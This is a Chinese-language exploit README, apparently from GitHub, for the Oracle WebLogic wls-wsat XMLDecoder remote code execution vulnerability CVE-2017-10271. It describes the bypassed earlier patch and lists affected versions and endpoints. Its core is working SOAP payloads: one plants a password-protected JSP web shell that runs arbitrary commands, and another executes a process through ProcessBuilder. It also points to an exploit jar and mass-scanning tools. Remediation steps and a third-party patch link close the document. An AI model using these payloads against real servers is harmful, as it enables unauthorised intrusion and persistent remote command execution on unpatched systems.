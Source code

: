 # Oracle-WebLogic-CVE-2017-10271
WebLogic wls-wsat RCE CVE-2017-10271

## 漏洞描述

mitre:http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-3506

早期，黑客利用WebLogic WLS 组件漏洞对企业服务器发起大范围远程攻击，有大量企业的服务器被攻陷，且被攻击企业数量呈现明显上升趋势，需要引起高度重视。其中，CVE-2017-3506是一个利用Oracle WebLogic中WLS 组件的远程代码执行漏洞，属于没有公开细节的野外利用漏洞，大量企业尚未及时安装补丁。官方在 2017 年 4 月份就发布了该漏洞的补丁。

CVE-2017-3506补丁说明：

```
public WorkContextXmlInputAdapter(InputStream is)
  {
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    try
    {
      int next = 0;
      next = is.read();
      while (next != -1)
      {
        baos.write(next);
        next = is.read();
      }
    }
    catch (Exception e)
    {
      throw new IllegalStateException("Failed to get data from input stream", e);
    }
    validate(new ByteArrayInputStream(baos.toByteArray()));
    this.xmlDecoder = new XMLDecoder(new ByteArrayInputStream(baos.toByteArray()));
  }
  
  private void validate(InputStream is)
  {
    WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
    try
    {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler()
      {
        public void startElement(String uri, String localName, String qName, Attributes attributes)
          throws SAXException
        {
          if (qName.equalsIgnoreCase("object")) {
            throw new IllegalStateException("Invalid context type: object");
          }
        }
      });
    }
    catch (ParserConfigurationException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
    catch (SAXException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
    catch (IOException e)
    {
      throw new IllegalStateException("Parser Exception", e);
    }
  }
```

只是在反序列化之前增加了一个validate函数,如果qName等于object，就抛出异常终止。可谓简单暴力，然而，这里的黑名单这种修复，很难彻底修复完整。值得深思…

该漏洞的利用方法较为简单，攻击者只需要发送精心构造的 HTTP 请求，就可以拿到目标服务器的权限，危害巨大。由于漏洞较新，目前仍然存在很多主机尚未更新相关补丁。预计在此次突发事件之后，很可能出现攻击事件数量激增，大量新主机被攻陷的情况。

Oracle官方4月份补丁对CVE-2017-3506该漏洞修复不彻底，可以绕过补丁，依旧执行远程命令。CVE-2017-10271目前绕过的漏洞在官方发布的10月份的补丁中已修复。

## 漏洞编号

CVE-2017-10271 （wls-wsat 远程命令执行绕过漏洞）

## 影响版本

Oracle WebLogic Server10.3.6.0.0 版本

Oracle WebLogic Server12.1.3.0.0 版本

Oracle WebLogic Server12.2.1.1.0 版本

Oracle WebLogic Server12.2.1.2.0 版本

## wls-wsat目录列表

```
/wls-wsat/CoordinatorPortType
/wls-wsat/CoordinatorPortType11
/wls-wsat/ParticipantPortType
/wls-wsat/ParticipantPortType11
/wls-wsat/RegistrationPortTypeRPC
/wls-wsat/RegistrationPortTypeRPC11
/wls-wsat/RegistrationRequesterPortType
/wls-wsat/RegistrationRequesterPortType11
```

## 利用方法

#### Poc：

##### CmdShell

```
Content-Type: text/xml

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java><java version="1.4.0" class="java.beans.XMLDecoder"><object class="java.io.PrintWriter"> <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string><void method="println"><string><![CDATA[<%   if("secfree".equals(request.getParameter("password"))){  
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("command")).getInputStream();  
        int a = -1;  
        byte[] b = new byte[2048];  
        out.print("<pre>");  
        while((a=in.read(b))!=-1){  
            out.println(new String(b));  
        }  
        out.print("</pre>");  
    } %>]]></string></void><void method="close"/></object></java></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>
```
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/1.jpg)

CmdShell : http://www.xxx.com/bea_wls_internal/test.jsp?password=secfree&command=whoami

![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/2.jpg)

##### 执行命令
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> 
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"> 
            <java version="1.6.0" class="java.beans.XMLDecoder">
                <object class="java.lang.ProcessBuilder"> 
                    <array class="java.lang.String" length="1">
                       <void index="0">
                        <string>calc</string>
                    </void>
                    </array>
                <void method="start"/> 
                </object>
            </java> 
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/> 
</soapenv:Envelope>
```
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/3.jpg)

#### 使用Exp获得一个CmdShell

##### WebLogic_Wls-Wsat_RCE_Exp.jar

![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/4.jpg)

#### 资产批量检测

##### WebLogic-Wls-wsat-XMLDecoder
![exploit](https://raw.githubusercontent.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/master/img/5.jpg)
![exploit](https://github.com/iBearcat/Oracle-WebLogic-CVE-2017-10271/blob/master/img/6.jpg?raw=true)

## 修复建议

1.升级Oracle 10月份补丁。

  http://www.oracle.com/technetwork/security-advisory/cpuoct2017-3236626.html
  https://lipeng1943.com/download/weblogic_patch-catalog_25504.zip

2.对访问wls-wsat的资源进行访问控制。

3.临时解决方案

  在不影响业务前提下，根据实际环境路径，删除WebLogic程序下列war包及目录。
```
rm -f/home/WebLogic/Oracle/Middleware/wlserver_10.3/server/lib/wls-wsat.war
rm -f/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/.internal/wls-wsat.war
rm -rf/home/WebLogic/Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/tmp/_WL_internal/wls-wsat
```
重启WebLogic服务或系统后，确认以下链接访问是否为404：

http://ip:port/wls-wsat/CoordinatorPortType11

